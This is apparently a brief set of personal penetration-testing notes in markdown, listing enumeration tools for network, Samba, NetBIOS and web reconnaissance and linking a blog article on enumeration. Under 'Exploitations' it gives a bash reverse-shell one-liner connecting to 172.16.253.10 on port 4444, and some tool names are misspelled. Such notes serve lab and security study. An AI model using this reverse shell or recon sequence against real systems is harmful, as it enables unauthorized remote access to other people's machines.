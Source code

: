 # Awesome Article 
http://virgil-cj.blogspot.com/2018/02/enumeration-is-key_6.html


- info 
what is RPC? 
	the client order the server to do some tasks


- Enumaration
	- netdiscover -r range  # arbscan
	- enum4linux # Samba enumration 
	- nbtscan 	# netbios nameserver scanner 
		- try to login with null session using 'rpclinet' 
	- search XXX_versoin 
	- web?
		- nikto -host https://
		- dirb 'afdsfa'
		- 


- Exploitations
	- Shells 
		bash -i >& /dev/tcp/172.16.253.10/4444 0>&1 



